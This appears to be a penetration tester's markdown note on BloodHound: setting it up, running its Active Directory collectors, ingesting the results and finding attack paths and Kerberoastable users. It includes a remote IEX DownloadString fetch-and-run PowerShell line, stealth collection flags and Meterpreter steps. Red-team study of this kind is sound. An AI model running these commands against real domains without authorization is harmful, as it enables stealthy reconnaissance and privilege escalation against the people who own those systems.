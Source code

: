 # [BloodHound](https://github.com/BloodHoundAD/BloodHound)

> BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment.

---

## Setup

**Attack machine**: [[neo4j#Run via Docker|Start Neo4j]]

**Attack machine (must be GUI)**: Start Bloodhound

```bash
cd /opt/bloodhound/BloodHound-linux-x64
./BloodHound --no-sandbox # no sudo required
```

Login using your neo4j credentials (in LastPass).

---

## Collection

Somehow, someway, execute a BloodHound collector (located in **/opt/bloodhound/collectors**), either from the attacker's machine with domain user credentials or on a domain-joined machine.

**Attacker Machine, Python collector**:

```bash
bloodhound-python -d $DOMAIN -u $USERNAME -p $PASSWORD -c All -ns $DOMAIN_DNS_SERVER_IP
```

**Target Machine, PowerShell collector**:

Source the BloodHound collector script.

```powershell
. .\SharpHound.ps1 # Locally
IEX (New-Object Net.Webclient).DownloadString("$HTTP_URL_TO_SCRIPT"); $BLOODHOUND_COMMAND_HERE # Remotely
```

Execute the collector script.

```powershell
Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth # HYDRA.test
```

**Target Machine, C# Collector**:

```powershell
.\SharpHound.exe --CollectionMethod All --Domain $DOMAIN --Stealth --NoSaveCache # HYDRA.test
```

**Meterpreter/PowerShell on Target Machine**:

```powershell
meterpreter > use powershell
meterpreter > powershell_import $PATH_TO_SHARPHOUND_PS1
meterpreter > powershell_execute "Invoke-BloodHound -CollectionMethod All -Domain $DOMAIN -Stealth -NoSaveCache" # HYDRA.test
```

---

## Ingest

Transfer the resultant ZIP archive to the attacker machine upload it to the BloodHound web UI, and explore!

---

## Analysis Process

After you've ingested all of the data, go to the search bar, type in the name of the principal you've already compromised, and hit enter. Right-click the resultant node and select `Mark Principal as Owned`. Do this for each principal you've compromised.

Afterwards, go through each of the prebuilt analytic queries except for `Shortest Paths to High Value Targets`.

If nothing stands out, select the query `Shortest Paths to High Value Targets` and see if there's anything interesting.

Afterwards, search for each of the owned principals. Right-click the node and investigate the `Node Info` attributes. Pay special attention to `Outbound Control Objects`.

---

## Discover Kerberoastable Users

Use the prebuilt query `List all Kerberoastable Users`.

